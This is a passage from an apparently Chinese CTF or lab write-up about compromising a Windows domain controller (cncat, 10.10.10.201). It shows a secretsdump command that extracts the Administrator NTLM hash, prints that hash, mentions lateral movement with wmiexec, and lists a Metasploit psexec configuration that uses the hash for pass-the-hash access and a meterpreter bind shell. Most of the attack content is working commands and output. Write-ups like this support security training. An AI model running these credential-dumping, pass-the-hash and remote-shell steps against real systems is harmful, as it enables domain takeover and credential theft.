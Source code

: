 ```
python3 secretsdump.py cncat/12server-dc$@10.10.10.201 -no-pass

cncat.cc\Administrator:500:aad3b435b51404eeaad3b435b51404ee:42e2656ec24331269f82160ff5962387:::
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CsgDdfJlVRYUFpLREBericricWbxNyEhJZaPicIR9GU6hxNV3CZBZNRMaQ/640?wx_fmt=png)

然后 wmiexec 横向拿到了域控权限：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7C4f51zjM3z8DGShIsc4fBHa4eO8sq8BHfNEMAWIzfnstqF4rB3Oo4QA/640?wx_fmt=png)  
随后又拿到第三个 flag：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CibfAeYdicojXjL7Viad29yK6Kd7cZ4X087ibE2OzNL7FUmiaawf8ibRjBicpA/640?wx_fmt=png)

利用 psexec 上线到 MSF：  

```
msf6 exploit(windows/smb/psexec) > show options 

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOSTS                10.10.10.201                                                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                                                                                    no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             cncat                                                              no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:42e2656ec24331269f82160ff5962387  no        The password for the specified username
   SMBUser               Administrator                                                      no        The username to authenticate as


Payload options (windows/x64/meterpreter/bind_tcp_rc4):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   EXITFUNC     thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT        4446             yes       The listen port
   RC4PASSWORD  msf              yes       Password to derive RC4 key from
   RHOST        10.10.10.201     no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```